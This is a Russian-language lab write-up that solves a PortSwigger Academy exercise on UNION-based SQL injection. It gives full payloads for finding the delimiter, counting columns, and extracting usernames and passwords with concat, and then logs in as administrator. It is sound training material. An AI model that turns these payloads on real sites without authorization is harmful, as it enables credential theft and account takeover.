 ```yaml
---
title: "SQL injection UNION attack retrieving multiple values in a single column"
date: 2025-06-20
tags: [sqli, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column"
---
```


В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Для решения лабораторной работы нужно выполнить атаку с помощью `SQL`-инъекции, войдя под пользователем `administrator`.

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/
```

## Solution

Из условия лабы известно, что уязвимость находится в фильтре категорий. Поэтому возьму `URL` с фильтром `Accessories`:

```
https://0a3300e7041babb2811b346f0068004e.web-security-academy.net/filter?category=Accessories
```

Следующим моим шагом будет подбор обрамления. Предположу, что запрос выглядит так:

```sql
SELECT * FROM table WHERE category = 'Accessories'
```

Тогда пейлоад должен иметь следующий вид:

```
Accessories' and false-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/1.png){: height="200" .align-center}

Выдало пустую страницу без ошибок, значит в качестве обрамеления используется `'`.

Далее узнаю количество колонок в запросе с помощью `ORDER BY`:

```
Accessories' ORDER BY 10-- -Error
Accessories' ORDER BY 5-- - Error
Accessories' ORDER BY 3-- -Error
Accessories' ORDER BY 2-- - OK
```

Значит у нас используется 2 колонки в запросе. Попробую использовать `UNION` для отображения информации:

```
Accessories' UNION SELECT 1, 2-- -Error
Accessories' UNION SELECT 1, '2'-- -OK
```

Я получил вот такое отображение на страницу:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/2.png){: height="200" .align-center}

Значит отображается информация только из второй колонки, а мне нужно получить `login` и `password` из таблицы `table`. Это можно сделать с помощью двух запросов, либо же использовать конкатенацию строк с помощью `concat`. Мой пейлоад будет иметь следующий вид:

```
Accessories' UNION SELECT 1, concat('1', '2')-- -
```

А вот так это отображается на странице:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/3.png){: height="200" .align-center}

Теперь попробую получить нужные данные. Я добавил условие `0=1`. Теперь у меня отображается только вторая часть моего запроса, то есть логины и пароли:

```
Accessories' and 0=1 UNION SELECT NULL, concat(username, ':' ,password) FROM users-- -
```

Я получил следующий вывод:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/4.png){: height="200" .align-center}

Теперь зайду в аккаунт под пользователем `administrator`:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-multiple-values-in-a-single-column/5.png){: height="200" .align-center}

Победа)
